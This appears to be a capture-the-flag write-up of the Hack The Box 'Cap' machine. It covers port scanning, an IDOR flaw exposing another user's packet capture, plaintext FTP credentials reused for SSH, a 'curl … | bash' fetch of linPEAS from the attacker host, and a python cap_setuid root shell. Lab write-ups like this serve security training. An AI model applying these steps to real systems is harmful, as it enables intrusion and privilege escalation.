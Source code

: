 Cap is an easy difficulty Linux machine running an HTTP server that performs administrative
functions including performing network captures. Improper controls result in Insecure Direct
Object Reference (IDOR) giving access to another user's capture. The capture contains plaintext
credentials and can be used to gain foothold. A Linux capability is then leveraged to escalate to
root.

```
ports=$(nmap -p- --min-rate=1000 -Pn -T4 10.10.10.245 | grep '^[0-9]' | cut -d
'/' -f 1 | tr '\n' ',' | sed s/,$//)
nmap -p$ports -Pn -sC -sV 10.10.10.245
```

![image](https://github.com/user-attachments/assets/528bd5dd-6cce-4b33-b437-c8354d7ec9f0)

According to nmap, port 80 is running Gunicorn, which is a python based HTTP server. Browsing to
the page reveals a dashboard.

![image](https://github.com/user-attachments/assets/08bbc6cd-1a5e-4fcd-be4d-1d4b10870e36)

Browsing to the IP Config page reveals the output of ifconfig . 

![image](https://github.com/user-attachments/assets/f77f5c14-7795-4c29-9ec8-09df3da49ba5)

Similarly, the Network Status page reveals the output for netstat . This suggests that the
application is executing system commands. Clicking on the Security Snapshot menu item
pauses the page for a few seconds and returns a page as shown below.

![image](https://github.com/user-attachments/assets/7651f2ef-f541-41d7-a7ac-7d9e837afb0b)

Clicking on Download gives us a packet capture file, which can be examined using WireShark.

![image](https://github.com/user-attachments/assets/5c0ab0fd-a0e5-497a-9416-75ef86397cbe)

We don't see anything interesting and the capture just contains HTTP traffic from us.

One interesting thing to notice is the URL scheme when creating a new capture, that is of the form
/data/<id> . The id is incremented for every capture. It's possible that there were packet
captures from users before us.
Browsing to /data/0 does indeed reveal a packet capture with multiple packets.

![image](https://github.com/user-attachments/assets/d68cf2f9-11c4-42c2-bac8-fc56a9d28b80)

This vulnerability is known as Insecure Direct Object Reference (IDOR), wherein a user can directly
access data owned by another user. Let's examine this capture for potential sensitive data. 

Opening the ID 0 capture file in Wireshark reveals FTP traffic, including the user authentication.

![image](https://github.com/user-attachments/assets/e18647ee-b2f5-4b8d-b1c5-9b6aa7b9df9c)

The traffic is not encrypted, allowing us to retrieve the user credentials i.e. nathan /
Buck3tH4TF0RM3! . These are found to be valid not only for FTP but can be used to login via SSH.

Let's use the linPEAS script to check for privilege escalation vectors. We'll download the latest
version and store it on our VM. Then we can create a Python webserver serving that directory by
using cd to enter the directory with linxpeas.sh and running sudo python3 -m http.server
80 .
From our shell on Cap, we can fetch linpeas.sh with curl and pipe the output directly into
bash to execute it:

```
curl http://10.10.14.24/linpeas.sh | bash
```

![image](https://github.com/user-attachments/assets/7988975f-dfb8-4430-bb8a-55c037aa33ba)

The report contains an interesting entry for files with capabilities. The /usr/bin/python3.8 is
found to have cap_setuid and cap_net_bind_service , which isn't the default setting.
According to the documentation, CAP_SETUID allows the process to gain setuid privileges without
the SUID bit set. This effectively lets us switch to UID 0 i.e. root. The developer of Cap must have
given Python this capability to enable the site to capture traffic, which a non-root user can't do.
The following Python commands will result in a root shell:

```
import os
os.setuid(0)
os.system("/bin/bash")
```

It calls os.setuid() which is used to modify the process user identifier (UID)

![image](https://github.com/user-attachments/assets/0604428f-9fc1-4a26-ad2a-eefce127041a)
